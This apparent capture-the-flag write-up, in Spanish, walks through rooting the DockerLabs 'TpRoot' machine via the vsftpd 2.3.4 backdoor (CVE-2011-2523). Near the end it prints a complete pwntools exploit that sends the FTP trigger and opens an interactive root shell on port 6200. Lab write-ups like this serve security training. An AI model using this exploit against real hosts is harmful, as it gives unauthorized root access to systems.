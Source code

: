 ```yaml
---
layout: post
title: "TpRoot - Dockerlabs - Linux - Fácil"
date: 2025-08-24
img: /assets/img/tproot/banner.png
---
```

TProot es una máquina Linux de nivel fácil en DockerLabs que nos permite practicar enumeración básica y explotación de vulnerabilidades conocidas.



**Enumeración**

Comenzamos con un reconocimiento de la máquina objetivo.

![img1](/secnotes/assets/img/tproot/1.png)

![img2](/secnotes/assets/img/tproot/2.png) 

Con la herramienta **searchsploit** veremos si existe alguna vulnerabilidad sobre el servicio _vsdtpd 2.3.4_

![img3](/secnotes/assets/img/tproot/3.png)
 
Encontramos un script de ejecución de comandos a través de una puerta trasera (backdoor). Esto se ejecuta conectándonos a un servicio aparentemente legitimo (FTP, HTTP, etc), enviamos un trigger (Usuario especial, header, token, etc) el servicio abre un puerto oculto o devuelve una shell, y al conectarnos a ese puerto podemos ejecutar comandos.

Esta corresponde a la vulnerabilidad CVE-2011-2523. En Exploit database encontramos un script para comprometer este servicio.

![img4](/secnotes/assets/img/tproot/4.png) 

Para ejecutarlo vamos a crear un entorno aislado con Python3 

![img5](/secnotes/assets/img/tproot/5.png) 

Esto sirve para poder instalar paquetes independientes en el sistema sin comprometer las librerías de nuestro Kali. Es útil para trabajar con distintas versiones de las librerías.

Ejecutamos el script que descargamos pero nos da un error. Indica que no tenemos la librería de telnet en nuestro sistema, esto pasó por que la versión actual de Python (3.13.5) elimino estas librerias que traía por defecto. 
 
![img6](/secnotes/assets/img/tproot/6.png) 

![img7](/secnotes/assets/img/tproot/7.png) 


con el siguiente comando podemos ejecutar directamente la versión 3.11.13 de Python desde un contenedor de docker en nuestro entorno aislado

`docker run -it --rm -v "$PWD":/work -w /work python:3.11 bash
python3 –version`

![img8](/secnotes/assets/img/tproot/8.png)

![img9](/secnotes/assets/img/tproot/9.png)
 
Al ejecutar el script obtendremos automaticamente una shell como usuario root en la máquina víctima.

![img10](/secnotes/assets/img/tproot/10.png)

![img11](/secnotes/assets/img/tproot/11.png)
 

**Opcion 2:**

Podemos modificar el script para reemplazar telnet por pwntools, así el script funcionará con las versiones actuales de python 

`#!/usr/bin/python3
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution (pwntools)
# CVE : CVE-2011-2523
# Original author: HerculesRD
# Ported to pwntools for Python 3.13+

from pwn import *
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    print('   [+] Exiting...')
    exit(0)

signal(SIGINT, handler)

parser = argparse.ArgumentParser()
parser.add_argument("host", help="Target IP address", type=str)
args = parser.parse_args()

host = args.host
portFTP = 21

user = b"USER nergal:)"
password = b"PASS pass"

# --- FTP trigger ---
ftp = remote(host, portFTP, timeout=5.0)
banner = ftp.recvline(timeout=5.0)
print(f"[+] Banner: {banner.strip().decode(errors='ignore')}")
ftp.sendline(user)
ftp.recvuntil(b"pass", timeout=3.0)  # más laxo que "password."
ftp.sendline(password)
ftp.close()
# --- Backdoor shell ---
try:
    shell = remote(host, 6200, timeout=5.0)
    print("[+] Success, shell opened")
    print("[i] Type 'exit' to quit")
    shell.interactive()
    shell.close()
except Exception as e:
    print(f"[-] Could not connect to backdoor: {e}")`


![img12](/secnotes/assets/img/tproot/12.png) 


